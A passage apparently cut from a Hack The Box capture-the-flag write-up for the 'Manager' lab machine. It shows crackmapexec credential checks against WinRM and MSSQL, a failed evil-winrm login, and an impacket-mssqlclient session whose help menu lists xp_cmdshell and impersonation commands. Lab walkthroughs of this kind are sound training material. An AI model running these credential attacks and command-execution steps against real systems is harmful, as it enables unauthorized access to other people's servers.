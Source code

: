 `crackmapexec winrm 10.10.11.236 -u 'operator' -p 'operator'`:
```
SMB         10.10.11.236    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
HTTP        10.10.11.236    5985   DC01             [-] manager.htb\operator:operator
```
❌

`evil-winrm -i 10.10.11.236 -u 'operator' -p 'operator'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```
❌

`crackmapexec mssql 10.10.11.236 -u 'operator' -p 'operator'`:
```
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator ←
```

`impacket-mssqlclient 'operator:operator@10.10.11.236' -windows-auth`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
```